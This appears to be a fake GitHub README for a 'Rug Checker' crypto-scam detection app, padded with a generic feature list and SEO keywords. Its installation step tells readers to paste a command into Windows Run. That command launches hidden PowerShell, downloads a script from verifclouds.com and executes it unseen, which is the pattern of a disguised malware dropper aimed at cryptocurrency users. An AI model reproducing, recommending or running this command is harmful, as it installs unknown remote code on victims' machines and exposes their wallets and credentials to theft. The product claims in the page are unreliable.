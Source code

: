 # Rug Checker 🛡️

## Description
**Rug Checker Bot** is a desktop application designed to assess the security and legitimacy of cryptocurrency projects, especially in the DeFi (Decentralized Finance) space. The program allows users to analyze smart contracts and project data, identifying potential scams and "rug pulls."

## Key Features
- **Smart Contract Analysis**: Check the smart contract code for vulnerabilities and potential risks.
- **Liquidity Check**: Evaluate liquidity pools to determine the safety of funds.
- **Team Verification**: Verify project team information to assess their reliability and experience.
- **User  Feedback Collection**: Analyze user and community reviews to get a complete picture of the project.
- **Suspicious Activity Alerts**: Receive notifications about any changes or risks associated with tracked projects.

## Installation

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


## Usage
1. Enter the smart contract address or project name you want to analyze.
2. Review the analysis results, including security ratings and identified risks.
3. Set up notifications to track suspicious activity in projects of interest.

## Security Tips 💡
- **Check All Projects**: Use Rug Checker to analyze every project you plan to invest in.
- **Keep the Program Updated**: Regularly check for updates to get new features and security improvements.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Rug Checker, you can enhance your security when investing in cryptocurrency. Use our tool to stay informed and protect your assets from scams! 😊

## SEO Keywords
- Rug Checker
- Cryptocurrency security
- DeFi projects
- Smart contract analysis
- Rug pulls detection
- Investment safety
- Liquidity analysis
- Team verification
- User feedback analysis
- Suspicious activity alerts
